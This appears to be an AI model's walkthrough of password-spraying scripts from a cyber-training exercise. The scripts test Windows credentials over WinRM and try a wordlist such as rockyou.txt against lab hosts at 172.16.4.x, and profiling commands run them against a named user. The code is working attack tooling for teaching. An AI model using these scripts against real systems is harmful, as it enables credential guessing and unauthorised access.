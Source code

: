 Here's a breakdown of all the code snippets from your markdown file, with each piece separated out and explained in simple terms.

---

### 1. check_pwd.py – WinRM Authentication Checker

#### Code

```python
#!/usr/bin/python3
import winrm

testip = '172.16.4.2'
testusername = 'trainee'
testpassword = 'CyberTaining1!'
testdomain = 'energy'

def check_pwd(targetip, targetusername, targetpassword, targetdomain):
    Connection = winrm.Protocol(
        endpoint='http://{}:5985/wsman'.format(targetip),
        transport='ntlm',
        message_encryption='always',
        username=r'{}\{}'.format(targetdomain, targetusername),
        password='{}'.format(targetpassword))
    try:
        shell_id = Connection.open_shell()
        command_id = Connection.run_command(shell_id, 'ipconfig', ['/all'], console_mode_stdin=True, skip_cmd_shell=False)
        std_out, std_err, status_code = Connection.get_command_output(shell_id, command_id)
        Connection.cleanup_command(shell_id, command_id)
        Connection.close_shell(shell_id)
    except winrm.exceptions.InvalidCredentialsError:
        return False
    return False if std_err else True

passwordvalidity = check_pwd(testip, testusername, testpassword, testdomain)
print("Password {} is {} for user {}".format(testpassword, 'valid' if passwordvalidity else 'invalid', testusername))
```

#### Explanation

- The script uses the PyWinRM library to authenticate to a Windows machine using WinRM (Windows Remote Management).
- Variables like testip, testusername, etc., store the target details.
- The check_pwd function tries to connect using the credentials:
    - If successful, it returns True.
    - If authentication fails (triggers InvalidCredentialsError), it returns False.
    - If some other error, also returns False.
- The bottom lines call the function and print if the password is valid or invalid for the user.

---

### 2. sprayer.py – Password Spraying Script

#### Code

```python
#!/usr/bin/python3
import winrm
import argparse

def check_pwd(targetip, targetusername, targetpassword, targetdomain):
    Connection = winrm.Protocol(
        endpoint='http://{}:5985/wsman'.format(targetip),
        transport='ntlm',
        message_encryption='always',
        username=r'{}\{}'.format(targetdomain, targetusername),
        password='{}'.format(targetpassword))
    try:
        shell_id = Connection.open_shell()
        command_id = Connection.run_command(shell_id, 'ipconfig', ['/all'], console_mode_stdin=True, skip_cmd_shell=False)
        std_out, std_err, status_code = Connection.get_command_output(shell_id, command_id)
        Connection.cleanup_command(shell_id, command_id)
        Connection.close_shell(shell_id)
    except winrm.exceptions.InvalidCredentialsError:
        return False
    return False if std_err else True

parser = argparse.ArgumentParser()
parser.add_argument('--ip', type=str, nargs='+', required=True)
parser.add_argument('--domain', type=str, required=True)
parser.add_argument('--user', type=str, required=True)
parser.add_argument('--passwordfile', type=str, required=True)
args = parser.parse_args()

for ip in args.ip:
    print("Testing passwords for user {} on machine {} ...".format(args.user, ip))
    finalpassword = 'No entry in password file'
    with open(args.passwordfile, 'r') as passwordfile:
        for password in passwordfile:
            password = password.strip()
            passwordvalidity = check_pwd(ip, args.user, password, args.domain)
            if passwordvalidity:
                finalpassword = password
                break
    print("{} is a valid password for user {} on machine {}".format(finalpassword, args.user, ip))
```

#### Explanation

- This script allows the user to "spray" a list of passwords against one or more IPs for a given user.
- Uses argparse to take command-line arguments for IPs, domain, user, and the password file.
- For each target IP:
    - Reads each password from the file and tries it using check_pwd.
    - If a valid password is found, saves it and stops trying more passwords for that IP.
    - Prints the result for each IP.

---

### 3. sprayer2.py – Alternative Loop Structure for Profiling

#### Code

```python
with open(args.passwordfile, 'r') as passwordfile:
    for password in passwordfile:
        password = password.strip()
        for ip in args.ip:
            finalpassword = 'No entry in password file'
            passwordvalidity = check_pwd(ip, args.user, password, args.domain)
            if passwordvalidity:
                finalpassword = password
                print("{} is a valid password for user {} on machine {}".format(finalpassword, args.user, ip))
        if passwordvalidity:
            break
```

#### Explanation

- This is a restructured version of the password spraying loop, designed for profiling and comparing efficiency.
- Instead of iterating over IPs first, it iterates over passwords first.
- For each password, it tries all IPs.
- If a valid password is found for any IP, it prints the result and breaks out of the password loop.
- The goal is to see which loop order is more efficient for spraying passwords against multiple targets.

---

### 4. Profiling the Scripts

#### Command-line Usage

```sh
python3 -m cProfile ./sprayer.py --user malik.freeman --passwordfile /usr/share/wordlists/rockyou.txt --ip 172.16.4.2 172.16.4.3 172.16.4.4 --domain energy > script1results.txt

python3 -m cProfile ./sprayer2.py --user malik.freeman --passwordfile /usr/share/wordlists/rockyou.txt --ip 172.16.4.2 172.16.4.3 172.16.4.4 --domain energy > script2results.txt
```

#### Explanation

- These commands run both versions of the script using Python's cProfile module.
- The results are redirected to text files (script1results.txt and script2results.txt).
- The profiling helps you compare which loop structure is faster.

---

## Summary Table

| Script/Code      | Purpose                                                  | Key Features                                                             |
|------------------|----------------------------------------------------------|--------------------------------------------------------------------------|
| check_pwd.py     | Test a single credential via WinRM                       | Simple, hard-coded values, prints if password is valid                   |
| sprayer.py       | Spray passwords from a file against multiple IPs         | Argparse for CLI, loops IPs then passwords, stops after first valid pass |
| sprayer2.py      | Alternative spraying algorithm for profiling             | Loops passwords first, then IPs, breaks on first valid password          |
| Profiling usage  | Performance benchmarking of both spraying algorithms     | Uses cProfile to measure script performance                              |

---

If you want a deeper explanation of any specific function, parameter, or concept, let me know!
